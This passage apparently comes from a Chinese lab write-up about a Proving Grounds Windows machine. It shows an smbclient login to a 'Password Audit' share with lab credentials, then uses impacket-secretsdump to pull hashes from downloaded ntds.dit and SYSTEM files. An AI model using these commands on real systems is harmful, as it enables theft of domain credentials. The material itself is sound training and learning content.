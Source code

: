 有一个文件看着很“危险”：`Password Audit`    （空格记得转义

```
smbclient //192.168.118.175/Password\ Audit -U 'V.Ventz'%'HotelCalifornia194!'
```

![image-20250308130158006](./PG_win.assets/image-20250308130158006.png)

全部下载到kali，给了ntds.dit和SYSTEM，之前在HTB做过相关题目，可以用secretsdump解密获取相关凭证

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```
